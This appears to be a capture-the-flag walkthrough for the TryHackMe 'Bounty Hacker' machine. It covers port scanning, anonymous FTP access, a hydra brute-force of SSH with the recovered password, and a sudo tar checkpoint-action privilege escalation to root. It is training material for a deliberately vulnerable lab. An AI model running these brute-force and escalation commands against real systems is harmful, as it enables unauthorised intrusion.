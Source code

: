 <h2>Bounty Hacker</h2>
<ul>
    <li>Link to access the machine: https://tryhackme.com/room/cowboyhacker</li>
    <li>Free Machine</li>
    <li>Created by Sevuhl</li>
</ul>
<h2>1. Deploy the machine & Enumerate open ports</h2>

Run ```nmap -A (machine ip)```<br/>

| Port Number  | Service / Version |
| ------------- | ------------- |
| 21  | ftp / vsftpd 3.0.3  |
| 22  | ssh / OpenSSH 7.2p2  |
| 80 | http / Apache 2.4.18 |

<h2>2. Connect to ftp as anonymous</h2>

Run ```ftp (machine ip)
       Name: anonymous
       Login successful```

With ```ls``` command, we can see 2 files named ```locks.txt``` and ```task.txt```</br>
We can get this files using the ```mget *``` command</br>
For the question "Who wrote the task list? ", the answer can be found in the ```task.txt```

<h2>3. Bruteforce the SSH service</h2>

Run ```hydra -l lin -P locks.txt -t 4 ssh://10.10.16.154``` in order to bruteforce the ssh, using ```lin``` as id and ```locks.txt``` as passwords dictonary
</br>Finally, we get the password ```RedDr4gonSynd1cat3```

<h2>4. Connect in SSH as lin</h2>

Run ```ssh lin@(machine ip)```<br>
We can run ```ls``` and ```cat user.txt```<br>
>There is the flag

<h2>5. Privilege escalation</h2>

Let's run ```sudo -l``` in order to check sudo configuration as lin<br>
```
[sudo] password for lin: 
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar
```

<br>We can see that lin can run ```tar``` as <b>root</b>
<br>On GTFOBins (https://gtfobins.github.io/), we can see that if we can run ```tar``` as <b>sudo</b>, we can <b>escalate privilege</b> with</br>
the command ```sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh```

<br>Let's run it

```bash
lin@bountyhacker:~/Desktop$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
tar: Removing leading `/' from member names
# whoami
root
```
<br>Now, we can ```cd root``` and access to the ```root.txt```
<br> Congraluations !
